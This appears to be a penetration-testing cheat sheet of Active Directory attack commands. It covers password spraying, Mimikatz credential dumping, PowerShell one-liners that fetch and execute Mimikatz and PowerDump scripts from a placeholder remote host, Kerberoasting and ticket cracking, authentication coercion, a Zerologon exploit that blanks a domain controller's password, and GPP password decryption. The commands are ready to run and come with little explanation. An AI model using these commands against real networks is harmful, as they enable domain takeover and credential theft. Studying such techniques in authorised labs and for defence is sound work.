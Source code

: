 # Authentication

<details>

<summary>Password Spraying</summary>

```bash
crackmapexec smb 192.168.165.122 -u user.txt -p password --continue-on-success 
```

</details>

<details>

<summary>Dumping Creds (Mimikatz Commands)</summary>

```bash
token::elevate
privilege::debug
log
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
lsadump::cache
```

```
powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-PowerDump.ps1 -UseBasicParsing);Invoke-PowerDump"

powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-Mimikatz.ps1 -UseBasicParsing); Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'"
```

* If mimikatz is not dumping out required hashes/passwords, can try `mimikatz_2_1_1_x64.exe` (version 2.1.1). From [here](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz\_trunk.zip).

</details>

<details>

<summary>Service Accounts Attacks</summary>

* When user wants to access resource hosted by SPN, client requirests a service ticket that is generated by DC
* Service ticket is encrypted through the password hash of the SPN&#x20;
* Application server then decrypt and validate the service ticket

```powershell
Add-Type -AssemblyName System.IdentityModel
```

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

* The following command will display all cached Kerberos tickets for the current user.

```powershell
klist
```

* To download the service ticket with `mimikatz`

```
privilege::debug
```

```powershell
kerberos::list /export
```

* To crack the service ticket to obtain cleartext password

```bash
sudo apt update && sudo apt install kerberoast
```

```bash
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

</details>

<details>

<summary>Abusing TGT and TGS tickets</summary>

```
mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::tickets
```

</details>

<details>

<summary>To dump the credentials of all logged-on users</summary>

```bash
mimikatz.exe
```

To engage the SeDebugPrivlege privilege, which will allow us to interact with a process owned by another account.

```sh
privilege::debug
```

```
sekurlsa::logonpasswords
```

</details>

<details>

<summary>Dump Machine Acc's hashes</summary>

```bash
# https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py
rpcdump.py <IP>|grep MS-RPRN
# https://github.com/NotMedic/NetNTLMtoSilverTicket
python dementor.py -u Guest -p ''  <target> <responder>
```

</details>

<details>

<summary>Zerologon</summary>

* Quick Win

[https://github.com/risksense/zerologon/blob/master/set\_empty\_pw.py](https://github.com/risksense/zerologon/blob/master/set\_empty\_pw.py)

<pre class="language-bash"><code class="lang-bash">python3 set_empty_pw.py DC01 192.168.194.165
<strong>secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
</strong><strong># secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'htb.local/forest$@10.10.10.161'
</strong></code></pre>

</details>

<details>

<summary>GPP Passwords</summary>

* When new Group Policy Preference is created --> XML file in SYSVOL share (Groups.xml) will contain all config data (including passwords)
* Microsoft patched it in 2014 to prevent admins from putting passwords into GPP&#x20;

```xml
# Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# GPPstillStandingStrong2k18
```

</details>
